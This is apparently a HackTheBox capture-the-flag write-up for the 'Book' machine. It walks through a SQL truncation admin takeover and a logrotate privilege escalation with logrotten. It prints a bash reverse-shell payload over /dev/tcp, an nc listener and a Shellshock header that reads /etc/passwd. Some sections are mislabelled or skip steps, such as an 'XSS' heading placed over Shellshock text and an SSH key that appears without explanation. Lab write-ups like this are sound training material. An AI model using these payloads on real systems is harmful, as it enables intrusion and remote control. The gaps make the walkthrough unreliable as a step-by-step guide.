




# Book - hackthebox


Book is a Linux machine rated Medium on HTB.

## Port Scan

`nmap -sC -sV 10.10.10.176`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:fc:57:99:f6:82:e0:03:d6:03:bc:09:43:01:55:b7 (RSA)
|   256 a3:e5:d1:74:c4:8a:e8:c8:52:c7:17:83:4a:54:31:bd (ECDSA)
|_  256 e3:62:68:72:e2:c0:ae:46:67:3d:cb:46:bf:69:b9:6a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LIBRARY - Read | Learn | Have Fun
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see SSH and a webserver running.

## Enumerating Website

This is the index page of the web server. It shows a login/signup page for what seems like a library app.



### Directory Busting

Let's run dirbuster to look for more pages.



The `admin` path is worth a closer look. And we find a similar login page but for administrators. 



### Logging In As User

Now, let's put on the hat of a user and try signing up for an account. So that we can log in and see what inside the member area.

After clicking on the "SIGN UP" button and creating a new account, we signed into the website.

After browsing around, the following pages are of interest:

* Upload page@
* Contact page



The contact page leaked the **email address of the administrator**.

* admin@book.htb

## SQL Truncation Attack

The source code of the login/signup page contains a client-side validation function for the signup form.

`curl http://10.10.10.176`

```
<SNIP>
function validateForm() {
  var x = document.forms["myForm"]["name"].value;
  var y = document.forms["myForm"]["email"].value;
  if (x == "") {
    alert("Please fill name field. Should not be more than 10 characters");
    return false;
  }
  if (y == "") {
    alert("Please fill email field. Should not be more than 20 characters");
    return false;
  }
}
<SNIP>
```

This function checks for empty form fields. 

More importantly, the error messages revealed that the email field should not be more than 20 characters. This suggests that the backend might not be properly configured to handle inputs exceeding that length.

Since we've obtained the admin email, let's try a SQL truncation attack with the aim of getting access to an admin account.

This is how the attack looks like in Burp:


How this SQL truncation attack works:

* First, the web app compares our email with the existing registered emails, it does not find clashes as we appended a series of spaces an a random string to it. 
* Hence, the database proceeds to the insert operation.
* However, as the email column is configured to accept only 20 characters, it truncates the email to 20 characters, before storing it as "admin@book.htb" without the trailing spaces.
* Now, the table contains a row with the admin email and a password of our choice (123456789).

Now, let's try to log from `/admin` with the following credentials:

* Email: admin@book.htb
* Password: 123456789

Yup, it works.


## XSS Attack On Generated PDF

Before we move on to getting a shell on the system, let's take a closer look at the modified header value to understand how it works.

`() { :; }; echo; /bin/bash -c 'cat /etc/passwd'`

* `() { :; };` - syntax of an empty bash function

* `echo;` - the subsequent command works without this echo command, but you need it to receive a well-formed HTML response ([with an empty line between the headers and the content](https://www.w3.org/Protocols/rfc2616/rfc2616-sec4.html)). In other words, if you expect text output and you want to see it as part of the HTML response, you need this.


With the SSH key, we can log in as `reader` to get the **user flag**.

```
root@kali:~/htb/book# ssh reader@10.10.10.176 -i ~/.ssh/reader
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.4.1-050401-generic x86_64)
<SNIP>
reader@book:~$ ls
backups user.txt
reader@book:~$ cat user.txt 
```

## Exploiting Logrotate

The home directory of `reader` contains a backup directory with log files. With writeable log files, we can consider exploiting logrotate.

Logrotate is a system utility that manages the automatic rotation and compression of log files.

How does it work:

* Under the create method, logrotate creates a new empty logfile in the log directory after rotating.
* If the log directory is swapped with a symlink pointing to another location, we can create a new file at that location.
* Because logrotate runs as root, it can write into any location.
* By default, the file is created with the same permissions as the original log file. 
* Since the attacker can write to the original log file, the attack can also write to this newly created file.

A typical exploitation path is to write a payload into `/etc/bash_completion.d` so that it will be executed when root logs in. 

### Exploit Conditions

We need logrotate to run to trigger out exploit.

Also, we need root to log in to trigger our payload.

Root is logging on every minute (Contrived)

`nc -nvlp 8888`

## Using Logrotten

How it works:

Conditions:

Our payload file is a shell script that pushes a reverse bash shell to us if the user who logs in is root (userid is 0).

```
#!/bin/bash
if [ `id -u` -eq 0 ]; then (bash -i >& /dev/tcp/10.10.14.6/8888 0>&1 &); fi
```


We know that logrotate is forced to run every five seconds, using the config file `/root/log.cfg`.

`/usr/sbin/logrotate -f /root/log.cfg`

Unfortunately, we cannot view the config file.

Our logrotten attack is stuck at waiting for a rotation. This means that somehow the backup directory is not being rotated.

Possible reasons:

* `backups` is not included in `log.cfg`
* The `ifempty` directive active, meaning it will not rotate an empty file.

Assuming second reason is true, let's write something to the log file to trigger a rotate.

`echo test > access.log`

Yes, the rotate was triggered as it did not find an empty file this time.

```
reader@book:/tmp$ ./logrotten -p ./payloadfile -d /home/reader/backups/access.log
logfile: /home/reader/backups/access.log
logpath: /home/reader/backups
logpath2: /home/reader/backups2
targetpath: /etc/bash_completion.d/access.log
targetdir: /etc/bash_completion.d
p: access.log
Waiting for rotating /home/reader/backups/access.log...
Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
Waiting 1 seconds before writing payload...
Done!
```

As root is logging in every second, we got a reverse shell connection almost immediately.

```
root@book:~# root@kali:~/htb/book# nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.176] 45694
root@book:~# whoami
whoami
```

## Ending Thoughts

Both the SQL truncate attack and the XSS exploit are new to me. Although I've heard of the logrotate exploit, this was the first time I've had the chance to try it out. 

Overall, a very educational box for me.


**References**

* https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/
* https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability

* https://linux.die.net/man/8/logrotate
* https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation